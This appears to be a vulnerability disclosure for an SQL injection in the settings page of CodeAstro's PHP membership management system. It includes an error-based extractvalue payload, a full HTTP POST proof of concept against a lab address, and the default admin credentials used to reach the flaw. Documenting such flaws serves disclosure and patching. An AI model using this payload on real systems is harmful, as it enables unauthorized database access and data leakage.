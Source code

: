 # SQLi-2

# Vulnerability Description

The membership-management-system in PHP Free Source Code (It is an open source project from [https://codeastro.com/](https://codeastro.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:  GaoJiaDong
2. vendors: https://codeastro.com/membership-management-system-in-php-with-source-code/;
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /settings.php

# Vulnerability Verification

[+] Payload:

```http
$'and/**/extractvalue(1,concat(char(126),user()))and'
```

POC：

```http
POST http://192.168.10.108/membership/settings.php HTTP/1.1
Host: 192.168.10.108
Content-Length: 551
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.108
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykDL01BGLdaAAiTIL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.108/membership/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vh18091oo0f1meordh3s83hkfp
Connection: close

------WebKitFormBoundarykDL01BGLdaAAiTIL
Content-Disposition: form-data; name="systemName"

Membership System
------WebKitFormBoundarykDL01BGLdaAAiTIL
Content-Disposition: form-data; name="logo"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarykDL01BGLdaAAiTIL
Content-Disposition: form-data; name="currency"

$'and/**/extractvalue(1,concat(char(126),user()))and'
------WebKitFormBoundarykDL01BGLdaAAiTIL
Content-Disposition: form-data; name="updateSettings"


------WebKitFormBoundarykDL01BGLdaAAiTIL--

```

## How to verify

1.Build the vulnerability environment according to the steps provided by the source code author ;

2.login to the "Admin Panel” through the default account and password（Email: [admin@mail.com](mailto:admin@mail.com) Password: codeastro.com）;

3.The vulnerability is located at the "Settings-Update Settings" function, you should inserts Payload when you Update any  information，as shown in the following figure：

​![image](assets/image-20240227214116-80ly2bi.png)​

​![image](assets/image-20240227214234-31512eo.png)​

